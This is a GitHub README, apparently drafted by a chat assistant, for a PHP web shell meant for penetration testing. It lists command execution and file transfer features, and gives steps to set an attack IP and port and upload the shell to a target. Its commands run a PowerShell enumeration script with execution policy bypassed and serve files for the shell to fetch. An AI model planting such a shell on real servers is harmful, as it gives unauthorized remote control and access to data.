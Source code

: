 Here’s the complete README.md content formatted for GitHub:

# The Not-So-Simple PHP Command Shell

![PHP Command Shell](images/php-command-shell.png)

## Description

The Not-So-Simple PHP Command Shell is a versatile tool designed for penetration testing and ethical hacking. It helps security professionals enumerate targets and extract information efficiently. This repository provides the necessary files and instructions to set up and use the command shell effectively.

## Features

- **Command Execution**: Execute simple system commands directly from the web interface.
- **File Management**: Upload and download files to and from the target system.
- **User Information Retrieval**: Obtain user permissions and information with a single click.
- **System Information Access**: Quickly access system details and running processes.
- **File Cleanup**: Easily remove all files uploaded through the tool.

## Installation

### Prerequisites

Before using The Not-So-Simple PHP Command Shell, ensure you have the following:

- A web server capable of running PHP.
- Basic knowledge of networking and command-line operations.

### Step-by-Step Guide

1. **Download the Tool**: Clone or download the repository from GitHub.

   ```bash
   git clone https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell.git


Configure the Tool: Open the nsscmdshell.php file and modify the following variables to match your attack machine's IP address and port:

$attackip = "10.0.2.6"; // Replace with your IP
$attackport = "8000";   // Replace with your port


Upload the Shell: Transfer the nsscmdshell.php file to the target server. This step should be performed in accordance with legal and ethical standards.

Access the Shell: Open a web browser and navigate to the uploaded nsscmdshell.php file. You will see a command input interface.

Execute Commands: Type valid commands in the input field or use the provided buttons to execute predefined commands.

Example Command Usage

To run a PowerShell script and save the output:

powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename jaws.txt


After execution, you can download the output file for analysis.

Common Issues and Troubleshooting

If you encounter errors such as:

Warning: file_get_contents(http://XX.XX.XX.XX:XXXX/filename.ext): failed to open stream: No connection could be made...


Consider the following solutions:

Check IP and Port: Ensure that the $attackip and $attackport variables are set correctly.

File Availability: Make sure the files you want to upload are accessible on the specified server and port. You can start a simple HTTP server using:

python3 -m http.server 8000

Ethical Considerations

It is crucial to emphasize that the use of The Not-So-Simple PHP Command Shell should be conducted within the bounds of the law. Unauthorized access to systems is illegal and unethical. Always ensure you have explicit permission to test the target systems.

Learning Resources

For those looking to enhance their skills in ethical hacking, consider exploring the following platforms:

Cybrary
Hack The Box
OWASP
Conclusion

The Not-So-Simple PHP Command Shell is a powerful tool for cybersecurity professionals, enabling efficient target identification and information gathering. By following the guidelines outlined in this document, users can effectively utilize this tool while adhering to ethical standards in cybersecurity.

License

This tool is released under the GPL-2.0 License, allowing modification and redistribution under the same terms.


### Notes:
- Ensure to replace the image paths (e.g., `images/php-command-shell.png`, `images/access-shell.png`, `images/license.png`) with the actual paths to your images in the repository.
- This Markdown file is structured to provide a comprehensive overview of the tool, installation instructions, usage examples, and ethical considerations, making it suitable for a GitHub repository.
